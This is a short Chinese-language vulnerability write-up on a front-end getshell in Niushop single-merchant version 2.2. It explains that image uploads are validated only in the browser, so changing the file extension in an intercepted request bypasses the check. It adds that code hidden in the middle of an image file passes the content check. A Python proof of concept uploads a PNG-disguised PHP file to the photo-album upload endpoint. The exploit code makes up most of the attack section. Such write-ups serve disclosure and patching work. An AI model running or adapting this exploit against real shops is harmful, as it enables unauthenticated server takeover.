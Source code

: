 Niushop 单商户 2.2 前台getshell
===============================

一、漏洞简介
------------

二、漏洞影响
------------

Version：单商户 2.2

三、复现过程
------------

![](resource/Niushop单商户2.2前台getshell/media/rId24.jpg)

上传图片只做了前端校验，抓包改后缀即可绕过。

对文件内容做了检查，文件大小不能过大或过小，合成马最好放到中间。

请求包截图，删除不必要的参数仍旧能够上传。

![](resource/Niushop单商户2.2前台getshell/media/rId25.jpg)

所以导致**前台getshell**

### poc

    import requests

    session = requests.Session()

    paramsGet = {"s":"/wap/upload/photoalbumupload"}
    paramsPost = {"file_path":"upload/goods/","album_id":"30","type":"1,2,3,4"}
    paramsMultipart = [('file_upload', ('themin.php', "\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0bIDAT\x08\x99c\xf8\x0f\x04\x00\x09\xfb\x03\xfd\xe3U\xf2\x9c\x00\x00\x00\x00IEND\xaeB`\x82<? php phpinfo(); ?>", 'application/octet-stream'))]
    headers = {"Accept":"application/json, text/javascript, */*; q=0.01","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0","Referer":"http://127.0.0.1/index.php?s=/admin/goods/addgoods","Connection":"close","Accept-Language":"en","Accept-Encoding":"gzip, deflate"}
    cookies = {"action":"finish"}
    response = session.post("http://127.0.0.1/index.php", data=paramsPost, files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies)

    print("Status code:   %i" % response.status_code)
    print("Response body: %s" % response.content)

参考链接
--------

> https://y4er.com/post/niushop-getshell/
